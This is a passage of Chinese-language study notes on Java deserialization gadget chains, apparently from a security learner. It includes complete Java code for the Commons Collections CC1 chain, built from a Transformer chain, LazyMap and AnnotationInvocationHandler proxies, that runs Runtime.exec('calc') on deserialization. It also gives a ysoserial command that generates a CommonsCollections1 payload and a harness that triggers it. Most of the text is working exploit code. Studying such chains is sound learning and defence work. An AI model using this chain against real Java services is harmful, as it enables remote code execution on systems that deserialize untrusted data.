   1. 关键代码组成部分
      1. 构造一个ConstantTransformer和多个InvokerTransformer
      2. 构造ChainedTransformer将上面的Transformer串联
      3. 构造LazyMap
      4. 构造内层handler1
      5. 构造proxyMap
      6. 构造外层handler2
      7. 序列化handler2
      8. 反序列化 
   2. 完整代码示例
      ```java
      import java.io.ByteArrayInputStream;
      import java.io.ByteArrayOutputStream;
      import java.io.ObjectInputStream;
      import java.io.ObjectOutputStream;
      import java.lang.reflect.Constructor;
      import java.lang.reflect.InvocationHandler;
      import java.util.HashMap;
      import java.util.Map;
      import org.apache.commons.collections.Transformer;
      import org.apache.commons.collections.functors.ConstantTransformer;
      import org.apache.commons.collections.functors.InvokerTransformer;
      import org.apache.commons.collections.map.LazyMap;
      import org.apache.commons.collections.functors.ChainedTransformer;

      public class CC1Demo {
         public static void main (String[] args) throws Exception {
         
            ConstantTransformer c=new ConstantTransformer(Runtime.class);
            InvokerTransformer i1=new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", new Class[0]});
            InvokerTransformer i2=new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]});
            InvokerTransformer i3=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
            Transformer[] ts=new Transformer[]{c,i1,i2,i3};
            ChainedTransformer chain=new ChainedTransformer(ts);

            HashMap<String, String> innermap=new HashMap<String, String>();
            Map<String,String> lazyMap=LazyMap.decorate(innermap, chain);

            Class<?> clazz=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> cons=clazz.getDeclaredConstructor(Class.class,Map.class);
            cons.setAccessible(true);
            Object h1=cons.newInstance(Override.class,lazyMap);
            InvocationHandler handler1=(InvocationHandler)h1;

            Map proxymap=(Map)java.lang.reflect.Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler1);

            InvocationHandler handler2=(InvocationHandler)cons.newInstance(Override.class,proxymap);
            
            ByteArrayOutputStream baos=new ByteArrayOutputStream();
            ObjectOutputStream oos=new ObjectOutputStream(baos);
            oos.writeObject(handler2);
            oos.flush();
            oos.close();
            baos.close();
            byte[] data=baos.toByteArray();
        
            ByteArrayInputStream bais=new ByteArrayInputStream(data);
            ObjectInputStream ois=new ObjectInputStream(bais)  ;
            ois.readObject();
            ois.close();
            bais.close();
         }
      }
      ``` 
   3. 关键：
      1. InvokerTransformer只能调用传入的input所属类存在的方法，因此调用ConstantTransformer和多出调用InvokerTransformer都是为了生成下一步InvokerTransformer调用方法所需的input类型
      2. LazyMap 类虽然是 public 的，但构造方法是 protected：查找用法找到 decorate()，它是 public 的并且内部会调用 LazyMap(map, factory)：
      3. innerMap设置为空：确保遍历entryMap时不存在key从而触发get()
   4. 测试：
      1. 要使用jdk8u71以下版本
      2. 成功执行命令弹出计算器证明CC1链利用成功     
7. 调试观察函数调用以及参数变化
   1. 设置断点：
      1. ois.readObject()
      2. this.memberValues.entrySet()
      3. 代理proxymap
      4. memberValues.get(member)
      5. lazyMap.get()
      6. ChainedTransformer
      7. ConstantTransformer
      8. InvokerTransformer
   2. 开始调试，观察参数值变化和方法调用调整过程
      1. 发现在调试到AnnotationInvocationHandler.invoke()时就触发了探测，但此时程序并没有执行完成，接着执行又会按照预想的方法调用顺序在我们设置的断点处一次次停下来直到最后弹出计算器
      2. 可能的原因：当你在断点处暂停时，VSCode 的调试器会：
         1. 检查变量值：为了在"变量"窗口显示 proxyMap、lazyMap、handler1 等对象的内容
         2. 调用 toString()：调试器会自动调用这些对象的 toString() 方法来获取可读的字符串表示
         3. 调用 hashCode()：某些情况下也会调用 hashCode()
         4. 调用 getClass()：获取类信息这些调用都发生在你的代码执行之前，通过代理对象被转发到 handler1.invoke()，进而触发了 LazyMap.get() 和整个 Transformer 链。
   3. 调试过程
      
      
      
      
      
      
8. ysoserial生成payload
   1. `cmd /c "java -jar ysoserial.jar CommonsCollections1 calc >payload.ser"`生成payload二进制文件
   2. 反序列化测试程序
      ```java
      import java.io.FileInputStream;
      import java.io.ObjectInputStream;

      public class testysoserial {
         public static void main(String[] args) throws Exception {
            FileInputStream fis=new FileInputStream("payload.ser");
            ObjectInputStream ois=new ObjectInputStream(fis);
            ois.readObject();
            ois.close();
            fis.close();
         }

      }

      ``` 
   3. 运行测试程序测试工具生成的payload
      ```java
      javac -cp "commons-collections-3.2.1.jar;." testysoserial.java
      java -cp "commons-collections-3.2.1.jar;." testysoserial      
      ``` 
   4. 成功弹出计算器
### URLDNS链vs CC1链

### CC2链
1. 